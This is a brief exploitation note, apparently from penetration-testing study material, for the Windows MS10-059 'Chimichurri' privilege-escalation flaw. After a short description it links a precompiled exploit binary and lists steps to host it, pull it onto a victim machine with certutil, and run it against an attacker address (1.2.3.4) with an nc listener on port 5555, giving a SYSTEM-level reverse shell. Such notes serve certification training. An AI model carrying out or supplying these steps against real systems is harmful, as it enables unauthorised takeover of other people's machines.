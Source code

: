 # Vunerability description
This security update resolves one publicly disclosed vulnerability and one privately reported vulnerability in the Tracing Feature for Services.  
The vulnerabilities could allow elevation of privilege if an attacker runs a specially crafted application.  
An attacker must have valid logon credentials and be able to log on locally to exploit this vulnerability.  
The vulnerability could not be exploited remotely or by anonymous users.
# Precompiled payload
https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059:%20Chimichurri/Compiled
# Steps to exploit
1. Download file Chimichurri.exe
2. Create a simple HTTP file server to host it (see https://github.com/hoangtrungkien/PNPT/tree/main/Delivery)
3. From victim's machine, get the file (using certutil -> see https://github.com/hoangtrungkien/PNPT/tree/main/Delivery)
4. Run the file
Assumptions: Attack machine: 1.2.3.4 / already run nc -nvlp 5555  
From Victim's machine: *Chimichurri.exe 1.2.3.4 5555*  
From Attack machine - in the nc screen -> will see connection with system privilege.  

